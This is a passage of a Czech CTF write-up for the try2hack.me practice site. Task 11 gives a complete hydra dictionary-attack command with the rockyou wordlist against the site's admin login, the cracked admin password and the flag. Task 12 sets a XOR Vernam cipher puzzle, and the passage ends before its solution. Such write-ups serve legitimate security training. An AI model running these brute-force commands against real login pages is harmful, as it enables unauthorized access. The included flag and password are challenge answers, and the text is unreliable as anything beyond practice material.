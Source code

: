 ### Zadání:

Tajné heslo pro splnění tohoto úkolu je schované v heslem chráněné [administraci](https://try2hack.me/manage/). Podaří se ti do ní dostat pomocí slovníkového útoku?

---

### Postup řešení

```bash
hydra -s 443 -S -V -l admin -P ./rockyou.txt -e s -t 30 -m /manage/ try2hack.me https-get
# [443][http-get] host: try2hack.me   login: admin   password: falcon
curl https://admin:falcon@try2hack.me/manage/
```

---

### Flag:

```
Veinsg5Vskg2Fpcb
```

---
---

## Úkol č. 12

### Zadání:

Zachytil jsi tajnou zprávu teroristické organizace. Podaří se ti ji rozluštit, pokud víš, že se jedná o Vernamovu šifru využívající operaci XOR nad klíčem, který je součástí textu Lorem Ipsum a odesilatel se v každé zprávě podepisuje jako *Ahmed*?

```
26041 f0f0a 54170 04f06 01011 b4f55 181d1 6001d 14005 d5722
13115 20000 00290 d1b0b 11401 91c29 49024 25433 010e0 017
```

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nam pharetra euismod ex, et dignissim risus sollicitudin id. Fusce ac mi sed massa dictum rutrum eu a eros. Orci varius natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Mauris malesuada ultrices velit, non auctor justo varius in. Nullam eget consectetur odio. Sed euismod posuere enim, eu aliquet purus facilisis et. In hac habitasse platea dictumst. Proin elementum interdum lorem, eget egestas velit tincidunt vel. In imperdiet, eros congue porttitor malesuada, mi mi dignissim tellus, ut luctus magna neque nec turpis. Nam sed nulla quis elit tempor blandit placerat id enim. Morbi malesuada nibh sem, eu feugiat nibh rutrum ac. Mauris facilisis lorem ut lobortis maximus.
```

---

### Postup řešení
